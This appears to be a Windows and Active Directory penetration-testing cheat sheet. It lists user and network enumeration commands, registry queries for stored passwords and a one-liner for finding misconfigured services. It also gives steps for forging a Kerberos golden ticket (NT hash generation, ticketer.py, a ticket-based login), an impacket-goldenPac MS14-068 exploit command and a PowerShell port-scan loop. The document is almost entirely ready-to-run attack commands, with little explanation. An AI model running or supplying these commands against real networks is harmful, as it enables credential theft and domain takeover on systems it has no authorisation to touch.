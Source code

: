System browsing:
```powershell
net user
```

```powershell
net user $USER
```

```powershell
netstat -an
netstat -an | findstr $PORT
```
Search for passwords inside the registry
---
```powershell
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

Find misconfigured services (default settings)
---
```powershell
cmd /c wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```

Golden ticket:
---
generate user password hash:

```python
import hashlib
hashlib.new('md4', '$PASSWORD'.encode('utf-16le')).digest().hex()
# save hash for later
```

or use

```url
https://gchq.github.io/CyberChef/#recipe=NT_Hash()
```

```powershell
get-addomain
#extract DomainSID
```

```shell
ticketer.py -nthash $HASH -domainsid $DOMAINSID -domain $DOMAIN -spn AnyName/$DCDOMAIN administrator
```

```shell
KRB5CCNAME=administrator.ccache mssqlclient.py -k administrator@$DCDOMAIN
```

GoldenPAC ms14-068

```bash
impacket-goldenPac -dc-ip $TARGET_IP -target-ip $TARGET_IP '$DOMAIN/$USER:$PASSWORD@$MACHINE.$DOMAIN'
```

Port scanning from PowerShell:

Scan if single port is open:
```powershell
Test-NetConnection 127.0.0.1 -Port $port
```

scan ports from 1 to 1024(slow):
```powershell
foreach ($port in 1..1024){If(($a=Test-NetConnection 127.0.0.1 -Port $port -WarningAction SilentlyContinue).TcpTestSucceeded -eq $true){"TCP port $port is open"}}
```